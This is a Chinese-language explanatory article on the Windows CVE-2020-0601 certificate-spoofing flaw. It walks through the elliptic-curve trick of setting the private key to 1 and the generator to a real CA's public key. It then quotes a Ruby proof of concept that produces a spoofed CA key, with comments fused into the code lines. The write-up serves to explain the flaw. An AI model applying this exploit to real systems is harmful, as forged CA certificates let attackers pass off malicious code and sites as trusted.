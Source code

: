 有了这些知识作为先决条件，这就是*CVE 2020–0601*发挥作用的地方。由于 Windows 不会验证证书中提供的曲线，因此我们可以提供这些参数，并根据这个简单的数学公式创建一个恶意证书。

既然我们可以控制参数，我们把私钥设置成 20，100 或者简单的值怎么样…比如数字 1？

![](img/4ad6118bdf9e19a6ec61a344a71c67df.png)

**这将导致我们的公钥等于我们在图上的起点，就像我们有了两个秘密参数一样，只是因为知道了公钥！**

有了这些信息，我们现在就可以通过获取公钥来伪造任何椭圆曲线证书。这里有一个例子。我们获得一个公钥，比如 1234，然后将它放入公式中:

![](img/344b33d459846e90d9cf71a9294ef258.png)

通过使用这些信息，我们可以生成一个由我们控制的有效 CA 证书！

概括一下:

**只要从任何来源获取公钥，我们就可以生成一个完全有效的恶意 CA 证书，我们可以用它来签署任何其他证书。该证书将被 Windows 10 信任，因为它将通过对其证书缓存的检查。**

# 奥利普恩的概念证明

Oliver Lyak 在 Github 存储库中演示了如何通过生成虚假的 CA 证书来利用该漏洞，然后继续演示如何使用它来签署其他证书，或者将代码签署为“可信的”。

下面的代码摘自他的[例子](https://github.com/ollypwn/CurveBall/blob/master/main.rb)。

```
require ‘openssl’# Read file provided in the first argument
raw = File.read ARGV[0]# Parse the file as a certificate
ca = OpenSSL::X509::Certificate.new(raw)# Extract the public keyca_key = ca.public_key# Set a private key to 1
ca_key.private_key = 1# Get the group parameters that contains the curve
group = ca_key.group# Set the generator parameters (G in our formula) to the public key
group.set_generator(ca_key.public_key, group.order, group.cofactor)# Ensure we are sending explicit parameters and not a predefined curve
group.asn1_flag = OpenSSL::PKey::EC::EXPLICIT_CURVE# Set our new group with our fake generator G’ = Q
ca_key.group = group# Save this to a file as our new CA
File.open(“spoofed_ca.key”, ‘w’) { |f| f.write ca_key.to_pem }
```
